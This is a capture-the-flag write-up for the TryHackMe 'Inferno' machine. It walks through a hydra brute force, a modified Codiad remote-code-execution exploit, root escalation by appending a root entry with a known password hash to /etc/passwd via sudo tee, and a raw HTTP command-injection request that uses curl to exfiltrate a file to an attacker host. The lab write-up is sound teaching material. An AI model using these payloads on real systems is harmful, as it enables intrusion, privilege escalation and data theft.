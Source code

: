 # Inferno

https://tryhackme.com/room/inferno

"Real Life machine vs CTF. The machine is designed to be real-life and is perfect for newbies starting out in penetration testing" <- *not too sure about this.*

Enum for this machine was frustrating, as there were dozens of ports open. In fact, I usually use `nmap -sS -sV -vv` for recon but it took over an hour here to scan the whole box. Much better to use rustscan, which on the tryhackme machine can be run with docker as so:

  `docker run -it --rm --name rustscan rustscan/rustscan:latest -a 10.10.36.88 -- -sV`
  
In any event, only the two standard ports were actually open, 22 and 80. On 80 was a simple website with a quote from dante's inferno, and with a bit of enum via `gobuster`, a sub directory `/inferno` that was protected by basic auth.

No further enumeration returned anything else, not even a username - typically I don't like to randomly brute force username's AND passwords, but that was the next step here. Long story short, going with a short list of usernames or just random guessing might get you to running `hydra` like:

  `hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 10.10.105.168 -m /inferno http-get`
  
Which eventually revealed the password for admin.

On `/inferno` was an installation of a web ide called 'Codiad'. It showed a file directory under inferno, the tool itself. However, no paths were writable: even though Codiad supports creating or uploading files, trying to do so would fail.

The tool itself is out of support, and there are some CVEs against it unresolved. A quick DDG found https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit, but it wouldn't work as is - the tool was not setup to support basic auth.

In order to get it functioning, I modded the `exploit.py` file so whenever it used session.get or session.post, it would specify basic auth headers. E.g.:

  ```python
  response = session.post(url, data=data, verify=False)
  ```
  
  Became
  
  ```python
  headers = {
    "Authorization": "Basic etcetc"
  }
  response = session.post(url, data=data, headers=headers, verify=False)
  ```
 
Once I got a shell, I noted that it would periodically close, probably due to a cronjob somewhere. It looked like every minute. I was able to work with this however.

> **NOTE**: I go into detail on how this exploit works and alternatives at the end.

In the home directory was dante's folder, with the local.txt file being unreadable. I ran a `ls -laR` which found, under `/Downloads`, a `.download.dat`. In very CTF fashion (not real life pentest at all) this contained hexadecimal characters which I ran through cyberchef to reveal `dante`'s password.

At this point I dropped the exploit shell and just ssh'd in, getting the first flag.

Getting to root was easy: `sudo -l` revealed the user could run `/usr/bin/tee` as root without a password (even though I had the password). Tee sends its input to two outputs, and can both write and append. Being able to use it as root means I could use it to append to the `passwd` file, and I used a handy entry I keep around for just such an occasion which I put into a file called pass: `cat pass | sudo /usr/bin/tee -a /etc/passwd` with pass containing: `user3:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root:/bin/bash` (which has password `pass123`).

Once done, I just `su user3` with `pass123` to escalate to root. The final proof.txt was in /root. Easy.

## The codiad exploit.

If you're not a fan of scripts from random github repos, or want to exploit this yourself, heres how. Its actually not too hard, based on a blatant RCE, so you could get that `.download.dat` purely with something like burp, if you wished.

The vulnerable code is in the filemanager class, which you can browse via the codiad interface, specifically the files `/components/filemanager/controller.php` and `/components/filemanager/class.filemanager.php`. The first takes the action as a query parameter then uses the appropriate method from the second, in this case the search function.

The vulnerability is on line 243 of the filemanager class, within the search function:

  `$output = shell_exec('find -L ' . $this->path . ' -iregex  ".*' . $this->search_file_type  . '" -type f | xargs grep -i -I -n -R -H "' . $input . '"');`

Here, search filetype is one of the body parameters, along with the search term, and you can see its being concatted to a os command without escaping. So its basic command injection.

To exploit this is a bit tricky, since its blind: you can't get the response back through the call, at least as far as I could tell. Instead, you can use a trick: fire up a webserver on an accessible machine, e.g, via `python3 -m http.server 4444`.

Then, you can exfiltrate data, by passing a command like `cat /home/dante/Downloads/.download.dat | base64 -w0 | xargs -I T curl 10.10.126.249:4444/?x=T`, which will read that download.dat file, base 64 encode it, then pass it to a curl request to your webserver (where you will see the request arrive with a big payload in the querystring).

I've used this technique before to enumerate a machine, as a wonky remote shell. Via this you could run `ls -laR` to find download.dat, download and run msfvenom packages, examine running processes etc - anything you can encode and xarg into curl and pass into that http body without breaking the request format.

So, back to the vulnerable component: to call this, and do the above, here is the raw http request. Its basically a post to that controller endpoint, with the basic auth header, the codiad cookie (so you will need to log in at least once), and the (unencoded!) body:

```http
POST /inferno/components/filemanager/controller.php?type=1&action=search&path=/var/www/html/inferno HTTP/1.1
Host: 10.10.71.248
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Authorization: Basic {username:password in base64}
Cookie: 99300f2078c94e495d72b82a732ea6db=gu0fv4ear8rsifistrnrcnes1o
Content-Length: 140

search_string=Hacker&search_file_type="%0Acat /home/dante/Downloads/.download.dat | base64 -w0 | xargs -I T curl 10.10.126.249:4444/?x=T %23
```
